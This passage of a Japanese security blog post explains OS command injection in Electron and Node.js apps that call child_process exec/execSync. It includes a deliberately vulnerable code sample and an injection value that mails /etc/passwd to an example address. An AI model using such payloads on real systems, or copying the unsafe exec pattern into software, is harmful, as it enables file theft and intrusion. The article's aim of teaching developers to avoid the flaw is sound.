 ```yaml
---
title: "ElectronでのOSコマンドインジェクションの脆弱性事例"
emoji: "🚫"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["nodejs", "javascript", "electron", "security"]
published: true
---
```


プライベートでお手伝いをしていた Electron プロジェクトで OS コマンドインジェクションの脆弱性を発見し、指摘・修正を行いました。

Electron(Node.js) のアプリケーションで別言語で作成したモジュールを動かす時には、実行ファイル形式にビルドして `child_process` から呼び出すことが多いと思います。
この記事では `child_process.{exec|execSync}` を使用した際の落とし穴について、Electron での事例を紹介しながら解説します。

# 要約

- `exec/execSync` はシェルで実行されるため、外部要因に影響するコマンドを実行する場合は必ずサニタイズしなければならない
- クロスプラットフォームでかつユーザーの動作環境に依存する Electron の場合は使用されるシェルが変わるため、サニタイズは難しい
- `execFile/execFileSync` はシェルに依存しないため、可能な限りこちらを使用することが望ましい

# OS コマンドインジェクションとは

> OS コマンドインジェクションは、ユーザーからデータや数値の入力を受け付けるような Web サイトなどにおいて、プログラムに与えるパラメータに OS への命令文を紛れ込ませて不正に操作する攻撃です。
> https://www.shadan-kun.com/blog/measure/2873/

Web サーバーへの攻撃手法としては一般的に認知されているかと思います。
上記 Web ページで紹介されている例を Node.js で書き換えると下記の通りになります。

```javascript
const { execSync } = require("child_process");

function sendEmail(address) {
  execSync(`mail -s "タイトル" ${address} < /var/data/aaa.txt`);
}
```

`address` 引数に `xxx@example.com < /etc/passwd #` が渡されると、実行されるコマンドは以下のようになり、`/etc/passwd` の内容がメールアドレスに送信されてしまいます。

```sh
mail -s "タイトル" xxx@example.com < /etc/passwd # < /var/data/aaa.txt
```

これと同じ攻撃を Electron でもできてしまうということを紹介します。

# Electron のセキュリティについて

まず、Electron のセキュリティについての歴史を簡単に説明します。

バージョン 1 や 2 の頃の Electron はブラウザー側（レンダラープロセス）に Node.js の API が剥き出しの状態であるため、XSS の攻撃を受ければローカルのファイルに無制限にアクセスできるようになり、ユーザーの PC 全体が危険に晒されてしまう状況でした。
